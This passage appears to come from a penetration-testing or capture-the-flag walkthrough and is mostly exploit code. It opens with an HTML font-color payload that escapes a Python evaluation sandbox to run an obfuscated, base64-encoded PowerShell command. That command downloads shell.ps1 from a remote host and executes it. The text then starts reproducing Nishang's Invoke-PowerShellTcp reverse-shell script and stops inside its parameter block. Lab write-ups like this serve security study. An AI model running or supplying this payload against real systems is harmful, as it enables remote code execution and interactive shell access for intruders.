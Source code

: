 ```html
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANQAuADkANQAvAHMAaABlAGwAbAAuAHAAcwAxACIAKQAKAA==') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

My shell.ps1 will be a copy of [Invoke-PowershellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) but with the invocation of the function at the end resulting like this:

```powershell
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
```